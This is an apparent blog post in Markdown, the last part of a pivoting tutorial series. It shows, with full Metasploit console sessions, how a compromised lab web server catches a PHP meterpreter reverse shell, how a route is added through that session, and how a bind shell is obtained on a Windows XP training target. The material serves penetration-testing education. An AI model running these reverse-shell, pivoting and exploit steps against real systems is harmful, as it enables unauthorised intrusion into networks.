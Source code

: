 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 4: Metasploit"
date: 2012-10-22 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-4.html
---
```


In this article, we'll look at pivoting using [Metasploit](http://www.metasploit.com/). If you have the option to use Metasploit, you'll find that it makes pivoting much easier. Metasploit can be installed on Linux, Windows, and Mac OS X, which makes it a pretty versatile tool. The number of modules included in the framework grows continuously, and its low learning curve makes it popular among hackers. 

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-22/01.jpg)

We've already compromised the web server and obtained some form of shell access to it, such as a reverse shell for instance. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I ported the python exploit we used in the previous articles into a Metasploit module which can be downloaded [here](http://techorganic.com/software/serverstrcpy.rb). It should be saved in ~/.msf4/modules/exploits/windows/misc/. 

### The attack

We begin by gaining access to the web server with Metasploit. We've created a PHP reverse meterpreter shell payload using php/meterpreter_reverse_tcp. This was copied to the web server and will connect back to our machine and give us a meterpreter shell when we load it. Let's start up our handler and gain our meterpreter shell: 

```
# msfcli exploit/multi/handler PAYLOAD=php/meterpreter_reverse_tcp LHOST=192.168.81.125 LPORT=9999 E
[*] Please wait while we load the module tree...
 
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
 
     Trace program: running
 
           wake up, Neo...
        the matrix has you
      follow the white rabbit.
 
          knock, knock, Neo.
 
                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`
 
 
       =[ metasploit v4.5.0-dev [core:4.5 api:1.0]
+ -- --=[ 961 exploits - 508 auxiliary - 153 post
+ -- --=[ 257 payloads - 28 encoders - 8 nops
 
PAYLOAD => php/meterpreter_reverse_tcp
LHOST => 192.168.81.125
LPORT => 9999
[*] Started reverse handler on 192.168.81.125:9999 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (192.168.81.125:9999 -> 192.168.81.181:64796) at 2012-10-05 16:26:12 -0400
 
meterpreter >
```

We've obtained a meterpreter shell on the web server. We'll need to background meterpreter so we can setup our pivot. To do this, we can use Metasploit's route command to associate the new route to our meterpreter session: 

```
meterpreter > background
[*] Backgrounding session 1...
msf  exploit(handler) > route add 192.168.63.0 255.255.255.0 1
[*] Route added
msf  exploit(handler) > route print
 
Active Routing Table
====================
 
   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.63.0       255.255.255.0      Session 1
 
msf  exploit(handler) >
```

Our pivot setup is now complete. Let's test it by exploiting Server-Strcpy using the serverstrcpy exploit module. The target port is already set to port 1000 by default, so all we have to do is specify the target IP address and the payload. For this example, we'll use the windows/shell_bind_tcp payload: 

```
msf  exploit(handler) > use exploit/windows/misc/serverstrcpy 
msf  exploit(serverstrcpy) > set RHOST 192.168.63.142
RHOST => 192.168.63.142
msf  exploit(serverstrcpy) > set PAYLOAD windows/shell_bind_tcp 
PAYLOAD => windows/shell_bind_tcp
msf  exploit(serverstrcpy) > exploit 
 
[*] Started bind handler
[*] Trying target Windows XP Pro SP2 English...
 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>        
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the target. This was an extremely easy setup, basically just using the route command within Metasploit to setup the pivot. 

This article concludes the series on introduction to pivoting. I started this series as a way to showcase different pivoting techniques that I hoped would be helpful to beginners. If the rules of engagement allow it, pivoting will allow you to show your clients just how serious a security breach can become if an attacker can tunnel deep into the network. 


